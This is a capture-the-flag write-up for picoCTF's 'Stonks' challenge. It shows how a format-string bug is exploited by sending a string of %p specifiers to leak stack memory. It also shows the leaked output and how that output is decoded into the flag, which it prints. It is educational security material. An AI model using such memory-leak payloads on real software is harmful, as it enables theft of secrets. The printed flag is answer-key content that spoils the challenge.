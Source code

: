 #Stonks Writeup

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/e4d297ce964e4f54225786fe7b153b4b/vuln.c) `nc mercury.picoctf.net 20195`

After playing around with the netcat we notice that option 1 asks for an API token to buy the stocks. Maybe if we can get the right token, we'll get the flag. Opening the code we can see the `buy_stonks` function. At the bottom, we can see the code that was used for taking in the input.

`scanf("%300s", user_buf);` The scanf function takes in two parameters. The first parameter is the format, `%300` means that the maximum length of the string we take in is 300. The `s` afterwards means that the output will be a string. The second parameter is the variable in which the user input will be stored. We also notice the api_buf variable which has the content inside the api file which is most likely the flag we want. So using the string formatting exploit, by inputting %p we can get the previous chunk of memory from the code. By doing this enough times we can get the api_buf value.

```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p  
Buying stonks with token:
0x926f3d00x804b0000x80489c30xf7f6fd800xffffffff0x10x926d1600xf7f7d1100xf7f6fdc7(nil)0x926e1800x30x926f3b00x926f3d00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353430360x643036640xff83007d0xf7faaaf80xf7f7d4400xe827c0000x1(nil)0xf7e0cce90xf7f7e0c00xf7f6f5c00xf7f6f0000xff83a7180xf7dfd68d0xf7f6f5c00x8048eca0xff83a724(nil)0xf7f91f09
Portfolio as of Wed Aug 16 01:16:04 UTC 2023


3 shares of XDP
1 shares of ANJ
7 shares of EK
39 shares of EECA
73 shares of SLF
28 shares of WPSJ
1335 shares of H
Goodbye!
```

Now all we have to do is decrypt the parts highlighted in red.
First, we notice the `(nil)` which mean null. We don't want to decrypt those, so we can use them to split up the encrypted variables. Next, we notice that there are `0x`'s splitting the text into even smaller pieces. We're looking for normal and special characters which are 8 bits, so we can remove all the strings with a length less than 8. After doing this we can finally start decrypting. Each of the strings are hexadecimals and to convert hexadecimal to strings we can use the `bytes.fromhex()` function. Adding all of the final characters onto a variable and printing it we see...

÷÷­ÿÿÿÿ÷ø÷÷­Çocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿ }÷ûZø÷ø@2>. ÷á|é÷øÀ÷÷¥À÷÷  ÿÃx÷à÷÷¥ÀÿÃ÷ùÏ

The ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿ } part seems like it should be the flag and looking at the front we can see ocip which is pico reversed. This most likely means that the computer hosting the sever uses little endian instead of big endian. To convert little endian to big endian we can just reverse the byte_arr before we add it onto the flag variable. Reprinting the code we get:

­÷÷ÿÿÿÿø÷Ç­÷÷picoCTF{I_l05t_4ll_my_m0n3y_6045d60d} ÿøZû÷@ø÷ .>2é|á÷Àø÷À¥÷÷  ÷÷xÃÿà÷À¥÷÷Ãÿ	Ïù÷

We've found our flag: picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}